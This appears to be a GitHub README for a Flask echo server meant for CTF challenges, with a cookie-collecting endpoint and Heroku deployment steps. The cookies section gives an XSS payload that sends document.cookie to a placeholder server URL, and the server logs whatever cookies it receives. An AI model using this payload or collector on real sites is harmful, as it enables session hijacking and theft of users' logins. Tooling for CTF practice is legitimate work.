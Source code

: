 # flask-echo-server

A simple echo server built with flask for CTF

## echo
> Removed options; Just minimal echo server left.

![](screenshots/echo.png)

## cookies
> Farm and view cookies fast!

### farm cookies
Sending a request to `/c?c=COOKIE` adds `COOKIE` to `cookie.txt` in the same directory with `echo.py`.

The following script sends all the accessible cookies in the current document to the server(Can be used in XSS challenges).
```HTML
<script>location.href = "SERVER_URL/cookie?c=" + document.cookie;</script>
```

### view collected cookies
Open a browser and go to `/v` and view collected cookies.

![](screenshots/cookie.png)

The screenshot above is the result after I sent `C00K1E-M0n$T3R!!!` three times.

## deploy on heroku

```
$ git clone https://github.com/JunhoYeo/flask-echo-server.git
```
Clone this application using git.

```
heroku login
```
After downloading the Heroku CLI, run and log in to your account.

```
heroku create APPNAME # create new Heroku app
heroku git:remote -a APPNAME # set to existing Heroku app
```
Create or set git remote to existing Heroku app.

```
git add . 
git push heroku master
```
Add files and push to master

Your server will be running at `APPNAME.herokuapp.com`.

And congrats, it's over! You can use [Heroku Fixie](https://devcenter.heroku.com/articles/fixie) to retrieve static IP addresses about your app. 
